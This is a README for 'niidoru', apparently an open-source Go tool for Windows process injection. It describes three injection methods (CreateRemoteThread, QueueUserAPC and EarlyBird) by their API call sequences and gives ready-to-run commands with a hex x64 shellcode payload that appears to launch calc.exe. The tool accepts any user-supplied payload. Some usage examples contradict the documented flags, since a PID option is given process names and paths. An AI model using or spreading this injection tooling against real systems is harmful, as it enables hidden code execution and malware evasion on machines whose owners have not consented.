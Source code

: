 # niidoru

Framework for Process Injection using Go.

```
go run . -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```
- -m (Mandatory): Process injection method. Options: 1, 2, 3

- -p (Optional):  Process ID or PID. Examples: 1234

- -n (Optional):  Process name. Example: notepad.exe

- -h (Optional):  Hexadecimal payload. It can be in the format "\x50\x51\x52" or "505152". Default: Payload to pop calc.exe 

------------------------------

## Methods

**Method 1** (*-m 1*) or **CreateRemoteThread**: 

```
OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread + CloseHandle
```

**Method 2** (*-m 2*) or **QueueUserAPC**: 

```
OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC + CloseHandle
```

**Method 3** (*-m 3*) or **EarlyBird**: 

```
CreateProcess + VirtualAllocEx + WriteProcessMemory + VirtualProtectEx + QueueUserAPC + ResumeThread + CloseHandle
```

------------------------------

## Examples:

Process injection using CreateRemoteThread method, targeting a notepad.exe process and with a payload in hexadecimal format with "\x":  

```
go run . -m 1 -p notepad.exe -h \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
```

Process injection using QueueUserAPC method, targeting a process with PID 1234 and with a payload in hexadecimal format without "\x":

```
go run . -m 2 -p 1234 -h 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
```

Process injection using EarlyBird method, spawning a new notepad.exe process and with the default payload:

```
go run . -m 3 -p c:\windows\system32\notepad.exe 
```

------------------------------

## Binary

Compile:

```
go build
```

Run:

``` 
niidoru.exe -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```




